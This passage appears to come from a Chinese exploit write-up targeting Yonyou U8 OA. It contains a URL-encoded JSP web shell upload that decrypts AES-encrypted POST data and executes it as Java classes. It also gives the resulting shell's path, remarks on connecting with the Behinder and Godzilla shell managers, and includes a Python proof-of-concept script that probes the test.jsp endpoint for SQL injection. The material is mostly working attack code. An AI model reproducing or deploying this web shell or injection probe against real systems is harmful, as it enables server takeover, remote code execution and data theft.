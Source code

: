 ```sqlite
X-Remote-IP: 8.8.8.6
X-Remote-Addr: 8.8.8.6
Referer: http://www.baidu.com/
Content-Length: 669

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

![img](https://z3.ax1x.com/2021/07/13/WFH6Mt.png)

### 连接shell

http://x.x.x.//yyoa/cdnwebshell.jsp

不知道什么原因，冰蝎连接，一直提示获取秘钥失败，直接换哥斯拉，连接成功：

![img](https://z3.ax1x.com/2021/07/13/WFHsxI.png)

### 自动化脚本

佩奇大佬的脚本

​	检测注入：

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle     : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
```